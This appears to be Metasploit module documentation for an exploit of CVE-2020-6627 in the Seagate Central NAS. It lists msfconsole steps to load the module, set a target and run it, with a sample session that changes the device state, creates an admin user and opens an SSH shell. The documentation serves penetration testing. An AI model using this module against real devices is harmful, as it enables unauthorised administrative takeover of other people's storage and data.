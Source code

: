 ## Description
This module exploits the broken access control vulnerability in Seagate Central External NAS Storage device. (CVE-2020-6627)
Subject product suffers several critical vulnerabilities such as broken access control. It makes it possible to changes the device state 
and register a new admin user witch is capable of ssh access.

## Vulnerable Application 
Seagate Central is your personal cloud, providing a centralized location to store your files
from your Windows and Mac, mobile devices, and social networks. Play movies and music
and view photos from Seagate Central throughout your home on your smart TV, game
console, and tablet, and on an Internet-connected mobile device while on the road. With
Seagate Central, you can keep your digital life centralized and organized. 
read more : https://www.seagate.com/files/www-content/support-content/external-products/seagate-central/en-us/seagate-central-user-guide-us.pdf

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/seagate_central_ssh_user_add`
  4. Do: `set rhost <ip>`
  5. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```

## Scenarios
```
msf5 > use exploit/linux/http/seagate_central_ssh_user_add 
msf5 exploit(linux/http/seagate_central_ssh_user_add) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(linux/http/seagate_central_ssh_user_add) > run

[*] Current device state: social
[+] State successfully changed !
[*] Creating new admin user...
[*] User: jesse3233
[*] Pass: OdSvdFcT
[+] 192.168.1.27:80 - Login Successful (jesse3233:OdSvdFcT)
[*] Found shell.

id
uid=1001(jesse3233) gid=1001
```